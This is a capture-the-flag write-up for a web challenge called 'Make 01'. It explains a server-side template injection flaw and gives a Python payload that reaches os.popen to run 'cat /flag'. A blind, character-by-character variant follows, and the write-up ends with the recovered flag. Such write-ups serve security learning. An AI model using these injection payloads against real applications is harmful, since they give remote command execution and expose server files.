





## Make 01



We are given a webpage where we can enter any values we want as long as their sum evaluates to `0` or `1`.  



The Dockerfile reveals that the flag file is stored in root.  



Looking at the source code, we immediately notice an SSTI vulnerability in the backend. 



We can easily get RCE by submitting this payload under `a`.  

```python
self.__init__.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()
```

However, recalling that the result of the expression must be either `0` or `1`, we cannot simply get the webpage to display the full flag.  

Hence, we have to result to blind SSTI and leak the flag one character at a time. We can do this by simply getting every successive index and comparing it against a charset. To cast the boolean result to an integer, we just need to add `0` to the result.  

Note that `b` is set to `0` so that it doesn't affect our payload result.  

```python
a: (self.__init__.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()[0]=='p')+0

b: 0
```

We can write a simple script to bruteforce the flag.  



Flag: `pokactf2024{1438f7e5e5e706f835d5bb689836610fb5dec17163aab6f20a906cb87efcb417}`
